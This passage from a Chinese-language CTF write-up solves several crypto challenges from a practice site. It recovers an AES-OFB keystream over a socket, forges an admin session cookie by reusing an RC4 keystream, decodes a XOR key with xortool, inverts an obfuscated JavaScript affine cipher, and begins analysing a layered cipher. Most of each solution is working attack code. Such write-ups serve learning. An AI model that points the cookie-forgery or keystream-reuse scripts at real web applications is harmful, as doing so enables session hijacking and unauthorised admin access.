    print encrypt(p).encode("hex")
    sys.stdout.flush()
```

- `encrypt(p)`使用相同的`key`，`iv`进行加密，加密方式为`AES.MODE_OFB`。那么对于任意的字符串`p`，`encrypt(p)^p`是确定的。
- 对于某个字符`char_a`，以及所有的小写字符与`char_a`异或的值，那么就能通过穷尽确定`char_a`的值。

```python
import re
import json
import binascii
from pwn import*

patt1=re.compile(b"Try to decode the cipher:\n(.*?)\n====")
patt2=re.compile(b"(.*?)\nCalcuate the passcode...")
p = remote('hackme.inndy.tw',7700)
recv_data = p.recvuntil(b"(Press any key to continue)\n")
flag_enc=binascii.unhexlify(patt1.findall(recv_data)[0].decode())

data=[]
for i in range(0x60):
    p.sendline(b"any key")
    recv_data=p.recvuntil(b"(Press any key to continue)\n")
    encrypted=binascii.unhexlify(patt2.findall(recv_data)[0].decode())
    data.append(encrypted)
p.close()


flag=""
for i in range(len(flag_enc)):
    for j in range(0x100):
        for k in range(len(data)):
            tmp=j^data[k][i]
            if tmp<0x61 or tmp>0x7a:
                break
        if k==len(data)-1:
            flag=flag+chr(j^flag_enc[i])
print(flag)
assert len(flag)==len(flag_enc),"try again"
```

#### 92 Crypto    login as admin 5

write up：

源码：

```php
<?php
require('config.php');
require('rc4.php');

$users = [
    'guest' => [
        'password' => 'guest',
        'admin' => false
    ],
    'admin' => [
        'password' => $password,
        'admin' => true
    ]
];
$user = null;

$cipher = new RC4($flag);

if($_GET['logout'] == '1') {
    unset($_COOKIE);
    setcookie('user5', '', time(), '/', 'ctf.hackme.quest', true, true);
}

if($_GET['show_source'] === '1') {
    highlight_file(__FILE__);
    exit;
}

function try_login($user, $pass)
{
    global $users;
    $name = $user;
    $user = $users[$user];
    if($user && $user['password'] === $pass) {
        return [
            'name' => $name,
            'admin' => $user['admin']
        ];
    }
    return false;
}

function set_session($user)
{
    global $cipher;
    $cookie = base64_encode($cipher->encrypt(json_encode($user)));
    setcookie('user5', $cookie, time() + 60 * 60, '/', 'ctf.hackme.quest', true, true);
}

function restore_session()
{
    global $cipher;
    global $user;
    $data = $cipher->decrypt(base64_decode($_COOKIE['user5']));
    $user = json_decode($data, true);
}

if(isset($_POST['name']) && isset($_POST['password'])) {
    $user = try_login($_POST['name'], $_POST['password']);
    if($user) {
        set_session($user);
    }
} else {
    if(isset($_COOKIE['user5'])) {
        restore_session();
    }
}
```

使用`rc4`加密，`rc4`属于流密码（stream cipher）：

- `明文流^密钥流=密文流`

特点：已知某明文及其对应密文，能构造长度不大于该明文的任意字符串对应的密文。使用`guest/guest`登录：

```
明文：{"name":"guest","admin":false}
密文：base64.b64decode(U/osUbnY8nSrWz4WPwKSwWPzKq9tOIQ9eCWnN5E+)
```

构造`{"name":"admin","admin":true}`对应的密文作为`cookie`访问网页：

```python
import re
import json
import base64
import requests

patt1 = re.compile("FLAG{.+?}")
def xor(a, b):
    return bytes(i ^ j for i, j in zip(a, b))

user_guest = b'{"name":"guest","admin":false}'
user_admin = b'{"name":"admin","admin":true}'

guest_cookie = "U/osUbnY8nSrWz4WPwKSwWPzKq9tOIQ9eCWnN5E+"
key_stream = xor(user_guest,base64.b64decode(guest_cookie))
admin_cookie = base64.b64encode(xor(user_admin,key_stream)).decode()
cookies = {
    'user5': admin_cookie
}
r = requests.get('https://ctf.hackme.quest/login5/',cookies = cookies)
print(patt1.findall(r.text))
```

#### 93 Crypto    xor

##### ##xortool

A tool to analyze multi-byte xor cipher 

write up

```sh
root1@root1-virtual-machine:~$ xortool -c 20 xor
The most probable key lengths:
 1:   8.6%
 3:  10.6%
 6:   9.4%
 9:  21.8%
12:   7.1%
15:   6.2%
18:  14.1%
27:   9.7%
36:   7.1%
45:   5.4%
Key-length can be 3*n
1 possible key(s) of length 9:
hackmepls
Found 1 plaintexts with 95%+ valid characters
See files filename-key.csv, filename-char_used-perc_valid.csv
```

```python
import re

patt1=re.compile(b"FLAG{.+?}")
def xor(a, b):
    return bytes(i ^ j for i, j in zip(a, b))

f=open("xor","rb")
data=f.read()
data_len=len(data)
f.close()
key=b"hackmepls"
key_len=len(key)

xor_dec=b""
i=0
while True:
    xor_dec=xor_dec+xor(key,data[i:i+key_len])
    i=i+key_len
    if i>=data_len:
        break
print(patt1.findall(xor_dec))
```

#### 94 Crypto    emoji

write up：

js代码，被混淆过了。`https://tool.lu/js/`在线解密，得到新的js代码：

```javascript
console.log(
  (function () {
    if (typeof require == "undefined") return "(´・ω・`)";
    var code = require("process").argv[2];
    if (!code) return "(´・ω・`)";
    String.prototype.zpad = function (l) {
      return this.length < l ? "0" + this.zpad(l - 1) : this;
    };
    function encrypt(data) {
      return (
        '"' +
        Array.prototype.slice
          .call(data)
          .map((e) => e.charCodeAt(0))
          .map((e) => (e * 0xb1 + 0x1b) & 0xff)
          .map((e) => "\\u" + e.toString(16).zpad(4))
          .join("") +
        '"'
      );
    }
    var crypted =
      "\u00ff\u00ff\u00ff\u0048\u0039\u0006\u0068\u00e6\u00ff\u00ff\u00ff\u0048\u0026\u00ca\u00ca\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ff\u00ff\u0035\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ca\u00ca\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ff\u00ca\u0035\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ca\u00ff\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ff\u00ff\u0035\u00c3\u0026\u0088\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ff\u00ff\u00ca\u00ff\u0035\u00c3\u00ff\u00ff\u00ff\u0006\u00ff\u00ff\u00ff\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ca\u00ff\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ff\u00ca\u0035\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ff\u00ca\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ca\u00ca\u0035\u00c3\u0026\u0088\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ff\u00ff\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ca\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ca\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0088\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0048\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0048\u00ff\u00ff\u00ff\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u0068\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u0048\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u0068\u0074\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u0048\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u0068\u0074\u00d6\u00c3\u00c3\u00ec\u00ff\u00ff\u00ff\u0074\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u0068\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u0048\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u0068\u0074\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u0048\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u0068\u0074\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u0048\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u0068\u0074\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u0048\u00ff\u00ff\u00ff\u00e9\u00ff\u00d6\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u0048\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0068\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0068\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00d6\u009d\u00b7\u009d\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00ca\u00d6\u009d\u00e9\u009d\u00d6\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00d6\u009d\u00c3\u00b7\u00b7\u00b7\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00d6\u009d\u0026\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u009d\u0088\u00b7\u00b7\u00b7\u009d\u0074\u00e6\u009d\u00d6\u009d\u00b7\u009d\u009d\u0074\u00c3\u0074\u0074\u00c3\u0074\u00e6";
    if (JSON.parse(encrypt(code)) != crypted) return "(´・ω・`)";
    try {
      eval(code);
    } catch (e) {
      return "(´・ω・`)";
    }
    return "(*´∀`)~♥";
  })()
);

```

`function encrypt`：

```javascript
 function encrypt(data) {
      return (
        '"' +
        Array.prototype.slice
          .call(data)
          .map((e) => e.charCodeAt(0))
          .map((e) => (e * 0xb1 + 0x1b) & 0xff)
          .map((e) => "\\u" + e.toString(16).zpad(4))
          .join("") +
        '"'
      );
    }
```

`0xb1`模`0x100`的逆为`0x51`，即有`(0xb1*0x51)&0xff=1`。 如果`y=(x*0xb1+0x1b)&0xff`，那么`x=((y+0x100-0x1b)*0x51)&0xff`。

```python
import js2py
from gmpy2 import *

d=invert(0xb1,0x100)
def decry(a):
    return ((a+0x100-0x1b)*d)&0xff

crypted = "\u00ff\u00ff\u00ff\u0048\u0039\u0006\u0068\u00e6\u00ff\u00ff\u00ff\u0048\u0026\u00ca\u00ca\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ff\u00ff\u0035\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ca\u00ca\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ff\u00ca\u0035\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ca\u00ff\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ff\u00ff\u0035\u00c3\u0026\u0088\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ff\u00ff\u00ca\u00ff\u0035\u00c3\u00ff\u00ff\u00ff\u0006\u00ff\u00ff\u00ff\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ca\u00ff\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ff\u00ca\u0035\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ff\u00ca\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ca\u00ca\u0035\u00c3\u0026\u0088\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u0068\u0087\u00ff\u00ff\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ff\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ca\u00ca\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0087\u00ff\u00ca\u00ca\u00ff\u0035\u00d6\u00d6\u00ff\u00ff\u00ff\u0088\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0048\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0048\u00ff\u00ff\u00ff\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u0068\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u0048\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u0068\u0074\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u0048\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u0068\u0074\u00d6\u00c3\u00c3\u00ec\u00ff\u00ff\u00ff\u0074\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u0068\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u0048\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u0068\u0074\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u0048\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u0068\u0074\u00d6\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u0048\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u0068\u0074\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u0048\u00ff\u00ff\u00ff\u00e9\u00ff\u00d6\u00c3\u00ec\u009d\u009d\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u0048\u00c3\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0068\u0006\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u0068\u00e6\u00ff\u00ff\u00ff\u00e9\u00ff\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00c3\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00d6\u009d\u00b7\u009d\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00ca\u00d6\u009d\u00e9\u009d\u00d6\u00c3\u00ec\u0006\u0068\u00d6\u009d\u009d\u0074\u0006\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u0068\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00d6\u009d\u00c3\u00b7\u00b7\u00b7\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00d6\u009d\u0026\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00ca\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u009d\u00b7\u00b7\u009d\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ca\u00ff\u00d6\u00ff\u00ff\u00ff\u00e9\u00ff\u00ff\u00ca\u00d6\u00ff\u00ff\u00ff\u00e9\u00ca\u00ff\u00ff\u00d6\u009d\u0088\u00b7\u00b7\u00b7\u009d\u0074\u00e6\u009d\u00d6\u009d\u00b7\u009d\u009d\u0074\u00c3\u0074\u0074\u00c3\u0074\u00e6"
js_code=""
for each in crypted.encode("latin1"):
    js_code=js_code+chr(decry(each))
js2py.eval_js(js_code)
```

#### 95 Crypto    multilayer

write up：

一共四层加密，layer1：

```python
def layer1(data):
    data = data.decode('ascii')

    s = string.ascii_uppercase
    t = list(s)
    random.shuffle(t)
    t = ''.join(t)

    print(collections.Counter(data))

    return data.translate(str.maketrans(s, t)).encode('ascii')
```

layer1 是一个简单的单表替换密码，把字符串中的大写字母替换成新的大写字母，但是字符串中的` {}\n`等字符是不会变化的。明文的格式为`FLAG{......}\n`。经layer1加密后的密文enc1，enc1部分密文是确定的。

```
enc1[4:5]=='{'
enc1[-2:]=='}\n'
```

layer2：

```python
def layer2(data):
    return bytes(b * 17 % 251 for b in data)
```

`invert(17,251)=192`，那么解密算法为：

```python
def layer2_dec(data):
    return bytes(b * 192 % 251 for b in data)
```

layer3：

```python
def layer3(data):
    output = []
    key = number.bytes_to_long(os.urandom(128))

    for i in data:
        key = (key * 0xc8763 + 9487) % 0x10000000000000000
        output.append((i ^ key) & 0xff)
    return bytes(output)
```

